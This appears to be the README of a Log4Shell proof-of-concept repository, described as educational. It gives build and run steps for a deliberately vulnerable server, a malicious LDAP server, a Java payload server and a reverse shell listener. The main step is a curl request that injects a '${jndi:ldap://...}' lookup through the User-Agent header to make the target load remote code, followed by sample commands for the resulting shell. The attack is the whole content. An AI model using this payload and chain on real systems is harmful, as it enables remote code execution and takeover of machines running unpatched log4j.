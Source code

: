 # log4Shell
log4Shell vulnerability RCE sample via reverse shell

**NOTE**

This repo is only for educational purposes only

---


## Run victim web server (app)
```
gradlew build
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build\libs\app-0.0.1.jar
```

## Run attacker malicious ldap server (ldap)
```
gradlew build
java -jar build\libs\ldap-1.0.0.jar http://localhost:8081/#Payload 636
```

## Run attacker java class payload server (payload)
```
gradlew build
java -jar build\libs\payload-1.0.0.jar
```

## Run attacker reverse shell server (rce)
```
gradlew build
java -jar build\libs\rce-1.0.0.jar

```

## Executing the attack
```
curl http://localhost:8080/ -H 'User-Agent:${jndi:ldap://0.0.0.0:636/a}'
```

## Sample command in reverse shell
```
cmd /C whoami
notepad
```




### More info
https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java

